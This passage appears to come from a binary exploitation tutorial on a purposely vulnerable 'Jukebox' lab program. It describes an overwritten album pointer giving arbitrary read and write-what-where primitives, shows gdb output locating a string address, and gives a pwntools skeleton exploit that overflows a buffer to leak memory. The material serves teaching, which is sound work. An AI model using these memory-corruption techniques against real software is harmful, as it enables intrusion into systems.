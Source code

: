 1. It provides an information leak opportunity when the `now_playing.album` pointer is overwritten and the album name is printed.
2. It provides a write what where primitive when the `now_playing.album` pointer is overwritten and input is provided to the second prompt.

Running the binary:

```
ubuntu@ubuntu-xenial:/vagrant/lessons/10_bypass_got/build$ ./1_records
This is a Jukebox
Now Playing: Simple Minds (Breakfast)
Hello
Now Playing: Hello
 Minds (Breakfast)
Stuff
Now Playing: Hello
 Minds (Stufkfast)
Hello
 Minds
```

It's a little screwy but nothing that fancy yet. Let's begin by trying to achieve the first vulnerable condition (arbitrary read). First, we can take an easy to spot target to leak. We can use the "This is a Jukebox" string. First, we need to figure out its address.

```
gdb-peda$ find "This is a Jukebox"
Searching for 'This is a Jukebox' in: None ranges
Found 2 results, display max 2 items:
1_records : 0x8048610 ("This is a Jukebox")
1_records : 0x8049610 ("This is a Jukebox")
```

Now, here's a skeleton exploit that will demonstrate the leaking of that string.

```
#!/usr/bin/python

from pwn import *

def main():
    p = process("../build/1_records")

    # Craft first stage (arbitrary read)
    leak_address = 0x8048610    # Address of "This is a Jukebox"
    stage_1 = "A"*24 + p32(leak_address)

    # Send the first stage
    p.send(stage_1)

    p.interactive()

if __name__ == "__main__":
    main()
```
